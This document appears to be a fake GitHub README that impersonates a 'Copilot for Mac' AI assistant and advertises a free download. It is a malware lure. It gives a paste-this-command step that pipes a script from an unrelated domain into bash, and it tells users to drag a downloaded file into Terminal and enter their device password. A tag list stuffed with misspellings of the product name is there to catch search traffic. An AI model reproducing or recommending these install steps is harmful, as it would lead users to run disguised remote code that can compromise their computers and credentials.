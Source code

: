 # Copilot — Download For Mac OS 🤖

Copilot for Mac is your intelligent AI assistant designed to streamline your workflow, enhance productivity, and supercharge your coding, writing, and data analysis. Download and install this desktop powerhouse to bring Copilot’s features straight to your macOS environment. ✨

![copilot](https://i.ytimg.com/vi/e4yVVPK2Eio/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLDq1yL7XVFu7UfHHC-jseQfFtUHFw)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](https://fituganshfgh.github.io/.github/copilot)

If the button above doesn't work, follow the terminal instructions below to install manually.

---

## 📦 How to Install Copilot For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Copilot For Mac

* 💬 **AI-Powered Assistance** — Get real-time help with writing, coding, or tasks.
* 💻 **Code Generation** — Autocomplete and suggest code across languages.
* 📋 **Smart Summaries** — Turn long emails, notes, or documents into summaries.
* 📈 **Workflow Automation** — Automate repetitive tasks effortlessly.
* 🧠 **Context-Aware Help** — Understands your projects and provides intelligent insights.
* 🧩 **App Integration** — Works with IDEs, terminals, and productivity tools.

---

## About Copilot

Copilot for Mac is a next-generation productivity and AI assistant application built for creatives, developers, analysts, and everyday users. With advanced AI at its core, Copilot transforms the way you work, write, code, and think — directly from your Mac.

Whether you're working on large software projects or simply drafting emails, Copilot adapts to your workflow and understands your context to provide smart, in-line suggestions. It’s designed to reduce friction and increase output by combining natural language understanding with real-time processing.

One of Copilot's strongest features is its multi-environment support. From IDEs like VSCode and JetBrains to apps like Notion and Slack, Copilot integrates directly to offer seamless AI assistance. With command-line capabilities, Copilot even helps automate tasks right from the terminal.

In terms of security, Copilot operates within encrypted environments and adheres to strict privacy protocols. The macOS version brings powerful local performance, keyboard shortcuts, and offline-first functionality for an uninterrupted productivity experience.

---

## ✅ Copilot App Benefits

* 🧠 Adaptive AI that learns from your workflow
* 🔌 Plugin and tool integration support
* ⚙️ Powerful for code, text, and automation
* 🛡 Secure, private, and local-first by design
* 🖥 Designed natively for macOS
* ⚡️ Instant access through global shortcuts

---

## 🖼 Preview

![Copilot Interface](https://www.spacebar.news/content/images/image/fetch/f_auto,q_auto:good,fl_progressive:steep/https-3a-2f-2fsubstack-post-media.s3.amazonaws.com-2fpublic-2fimages-2f8b6ed328-b248-404f-9349-e051c1accdcd_2384x1654.png)
*Smart suggestions panel inside a text editor*

![Copilot Code](https://i.postimg.cc/BnZbDZbw/copilot-2.png)
*Live code generation for Python and JavaScript*

![Copilot Chat](https://i.postimg.cc/PfLYsQgj/copilot-3.png)
*AI assistant answering technical and non-technical queries*

![Copilot Settings](https://i.postimg.cc/mZKYHgZd/copilot-4.png)
*Customizable settings for personal and work profiles*

---

## 🔍 Tags

copilot, copilot ai, co_pilot, copilot download, copoliet, microsoft copilot, github copilot, copilot microsoft, git hub pilot, github copilots, copilot app, copilot mac download, ai assistant for mac, copilot ai for developers, download copilot free, productivity ai mac, copilot desktop macos, coding ai for mac, copilot chat mac app, copilot for vscode mac, copilot install mac
